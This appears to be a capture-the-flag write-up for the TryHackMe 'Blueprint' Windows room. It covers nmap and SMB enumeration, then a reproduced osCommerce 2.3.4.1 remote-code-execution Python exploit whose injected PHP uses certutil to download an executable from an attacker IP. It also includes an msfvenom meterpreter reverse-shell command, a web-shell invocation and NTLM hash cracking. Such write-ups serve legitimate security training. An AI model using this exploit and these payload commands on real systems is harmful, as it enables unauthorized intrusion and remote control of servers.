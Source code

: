 # Blueprint (Easy)

- Note: Do you have what is takes to hack into this Windows Machine?
- Hack into this Windows machine and escalate your privileges to Administrator.
- Link: https://tryhackme.com/r/room/blueprint
# .Reconnaissance:

- Scan ports in the machine and directories

```bash
nmap -sV -vv -A -T4 <IP-Target>
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack ttl 127 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Bad request!
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack ttl 127 MariaDB (unauthorized)
8080/tcp  open  http         syn-ack ttl 127 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Index of /
| http-methods: 
|   Supported Methods: POST OPTIONS GET HEAD TRACE
|_  Potentially risky methods: TRACE
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49158/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49160/tcp open  unknown      syn-ack ttl 127
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|10|7|8.1|2012|Vista|11 (93%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_7::-:ultimate cpe:/o:microsoft:windows_8.1:r1 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista
OS fingerprint not ideal because: maxTimingRatio (2.608000e+00) is greater than 1.4
Aggressive OS guesses: Microsoft Server 2008 R2 SP1 (93%), Microsoft Windows 10 (91%), Microsoft Windows 10 10586 - 14393 (91%), Microsoft Windows 10 1607 (91%), Microsoft Windows 7 Ultimate (91%), Microsoft Windows 7 or 8.1 R1 or Server 2008 R2 SP1 (91%), Microsoft Windows 10 1511 (91%), Microsoft Windows 7 or 8.1 R1 (91%), Microsoft Windows 8.1 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%)
No exact OS matches for host (test conditions non-ideal).
```

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.25.105 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-14 22:53 +07
Nmap scan report for 10.10.25.105
Host is up (0.46s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-users: 
|   BLUEPRINT\Administrator (RID: 500)
|     Description: Built-in account for administering the computer/domain
|     Flags:       Password does not expire, Normal user account
|   BLUEPRINT\Guest (RID: 501)
|     Description: Built-in account for guest access to the computer/domain
|     Flags:       Password does not expire, Normal user account, Password not required
|   BLUEPRINT\Lab (RID: 1000)
|     Full name:   Steve
|_    Flags:       Normal user account
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.25.105\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.25.105\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.25.105\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\10.10.25.105\Users: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|     Current user access: READ
|   \\10.10.25.105\Windows: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ

Nmap done: 1 IP address (1 host up) scanned in 148.20 seconds
```

- We go to port 8080 —> we access into the page oscommerce

![Untitled](https://github.com/user-attachments/assets/b283c953-3de0-4f4e-9c4a-1f62cccd9190)

- We search the vuln by `searchsploit` :

```bash
searchsploit oscommerce 2.3.4
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
osCommerce 2.3.4 - Multiple Vulnerabilities         | php/webapps/34582.txt
osCommerce 2.3.4.1 - 'currency' SQL Injection       | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection    | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection     | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site  | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload          | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution          | php/webapps/44374.py
osCommerce 2.3.4.1 - Remote Code Execution (2)      | php/webapps/50128.py
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- Great! Let check some exploit to find solutions.

![Untitled 1](https://github.com/user-attachments/assets/0983c2fe-bf46-4f97-8d98-ddb065c1f466)

—> Got it! We found the exploit osCommerce and the script exploit was written by Python. Let see inside code.

```bash
# Exploit Title: osCommerce 2.3.4.1 Remote Code Execution
# Date: 29.0.3.2018
# Exploit Author: Simon Scannell - https://scannell-infosec.net <contact@scannell-infosec.net>
# Version: 2.3.4.1, 2.3.4 - Other versions have not been tested but are likely to be vulnerable
# Tested on: Linux, Windows

# If an Admin has not removed the /install/ directory as advised from an osCommerce installation, it is possible
# for an unauthenticated attacker to reinstall the page. The installation of osCommerce does not check if the page
# is already installed and does not attempt to do any authentication. It is possible for an attacker to directly
# execute the "install_4.php" script, which will create the config file for the installation. It is possible to inject
# PHP code into the config file and then simply executing the code by opening it.

import requests

# enter the the target url here, as well as the url to the install.php (Do NOT remove the ?step=4)
base_url = "http://localhost/oscommerce-2.3.4/catalog/"
target_url = "http://localhost/oscommerce-2.3.4/catalog/install/install.php?step=4"

data = {
    'DIR_FS_DOCUMENT_ROOT': './'
}

# the payload will be injected into the configuration file via this code
# '  define(\'DB_DATABASE\', \'' . trim($HTTP_POST_VARS['DB_DATABASE']) . '\');' . "\n" .
# so the format for the exploit will be: '); PAYLOAD; /*

payload = '\');'
payload += '$var=shell_exec("cmd.exe /C certutil -urlcache -split -f http://10.11.75.150:8000/Downloads/shell2.exe shell2.exe");'    # this is where you enter you PHP payload
payload += 'echo $var;'
payload += '/*'

data['DB_DATABASE'] = payload

# exploit it
r = requests.post(url=target_url, data=data)

if r.status_code == 200:
    print("[+] Successfully launched the exploit. Open the following URL to execute your code\n\n" + base_url + "install/includes/configure.php")
else:
    print("[-] Exploit did not execute as planned")

```

- We can insert PHP payload
- First, we can upload shell.php through /config.php to run command.
- Check script shell PHP:
  
![Untitled 2](https://github.com/user-attachments/assets/0dfa18d4-e4c4-4cf0-a6a3-9a320b1d851a)

- We run script payload to upload file shell PHP:

```bash
shell_exec("cmd.exe /C certutil -urlcache -split -f http://<IP_Machine>simple-shell.php simple-shell.exe");
```

- Run `sudo python3 -m http.server` to open server machine.
- We try to run command shell:  `shell.php?cmd=whoami`

![Untitled 3](https://github.com/user-attachments/assets/37d0f670-38af-4019-9898-0e9c5415e13f)

—> We are in Administrator !

- We create the reverse shell by msfvenom and upload it into the page.

```bash
msfvenom -f windows/meterpreter/reverse_tcp lhost=10.11.75.150 lport=4444 -f exe -o shell2.exe
```
![Untitled 4](https://github.com/user-attachments/assets/2f6341a8-11a4-49d0-a1e3-19b80da3eef4)

![Untitled 5](https://github.com/user-attachments/assets/2c144462-8add-4d80-a55c-a9113cc6293b)

- Because netcat is unstable so in this case we will use Metasploit to be stable.
- Run `msfconsole`  use Payload `windows/meterpreter/reverse_tcp`
- In this page osCommerce we run path url: `http://<IP>:8080/oscommerce-2.3.4/catalog/install/includes/simple-shell.php?cmd=shell2.exe`

![Untitled 6](https://github.com/user-attachments/assets/ac1a28fe-c059-4468-8326-95cbfadf7538)

![Untitled 7](https://github.com/user-attachments/assets/f21b895a-e6ea-4a92-880a-c69ca3f0644f)

- Decrypt NTLM hash of user ‘Lab’

![Untitled 8](https://github.com/user-attachments/assets/59affa98-c128-4a44-ab62-7da7982b953f)

END!!!
